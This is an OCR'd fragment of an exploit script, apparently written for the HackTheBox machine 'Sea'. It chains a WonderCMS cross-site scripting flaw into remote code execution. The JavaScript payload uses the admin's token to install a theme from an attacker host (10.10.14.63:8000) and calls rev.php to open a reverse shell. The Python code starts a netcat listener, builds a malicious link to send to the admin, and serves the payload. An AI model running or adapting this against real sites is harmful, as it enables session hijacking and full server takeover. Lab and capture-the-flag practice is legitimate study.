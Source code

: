 ```python
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = "http://sea.htb/wondercms/?installModule=http://10.10.14.63:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
```
